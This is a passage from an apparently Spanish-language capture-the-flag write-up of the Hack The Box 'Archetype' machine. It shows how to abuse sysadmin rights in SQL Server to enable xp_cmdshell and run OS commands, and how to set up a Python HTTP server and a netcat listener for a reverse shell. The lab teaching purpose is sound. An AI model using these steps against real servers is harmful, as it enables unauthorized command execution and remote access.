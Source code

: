 Una vez ejecutado el comando notamos que ingresamos correctamente. Hago uso de `help` para ver los posibles comandos a rea1lizar: 

![Archetype Yw4rf](../../../assets/HTB/Archetype/archetype-9.png)

El comando `SELECT is_srvrolemember('sysadmin');` se utiliza en **Microsoft SQL Server** para determinar si el usuario actual (el que está conectado a la base de datos) tiene el rol de **sysadmin** en el servidor. El comando devuelve un valor que indica si el usuario actual tiene el rol **sysadmin**: En este caso devuelve **1** lo que significa que el usuario si es miembro del rol **sysadmin**

![Archetype Yw4rf](../../../assets/HTB/Archetype/archetype-10.png)

Con conocimiento de ello, utilizo el comando `EXEC xp_cmdshell 'net user';` 

- `EXEC`: en SQL Server se usa para ejecutar un procedimiento almacenado o una instrucción SQL. En este caso, se está ejecutando la función `xp_cmdshell`.
- `xp_cmdshell`:  es una función extendida de SQL Server que permite ejecutar comandos arbitrarios en el sistema operativo o servidor subyacente desde SQL Server.
- `net user`: es un comando de Windows que muestra una lista de todas las cuentas de usuario en el sistema.

Al utilizar el comando `xp_cmdshell` está deshabilitado debido a los riesgos de seguridad que representa:

![Archetype Yw4rf](../../../assets/HTB/Archetype/archetype-11.png)

Como tenemos acceso a **sysadmin** en el servidor SQL es posible habilitarlo con los siguientes comandos: 

![Archetype Yw4rf](../../../assets/HTB/Archetype/archetype-12.png)

![Archetype Yw4rf](../../../assets/HTB/Archetype/archetype-13.png)

### Reverse Shell Execution

Una vez habilitado `xp_cmdshell`, verificamos su funcionalidad ejecutando el comando `xp_cmdshell "whoami"` lo que devuelve el resultado `archetype\sql_svc`

![Archetype Yw4rf](../../../assets/HTB/Archetype/archetype-14.png)

Lo que confirma que tenemos la capacidad de ejecutar comandos arbitrarios en el sistema subyacente. Este acceso nos abre la posibilidad de establecer una **Reverse Shell**, que nos permitirá ejecutar comandos directamente en el sistema operativo de la máquina víctima sin limitarnos al entorno del servidor SQL.

Antes de proceder, verificamos si el servidor SQL puede conectarse con nuestra máquina. Para esto: 

- **Iniciamos un servidor HTTP** en nuestra máquina para transferir un archivo necesario: `sudo python3 -m http.server 80` 

- **Ponemos Netcat en escucha** en el puerto 443, que utilizaremos para recibir la conexión de la reverse shell: `sudo nc -lvnp 443`

![Archetype Yw4rf](../../../assets/HTB/Archetype/archetype-15.png)
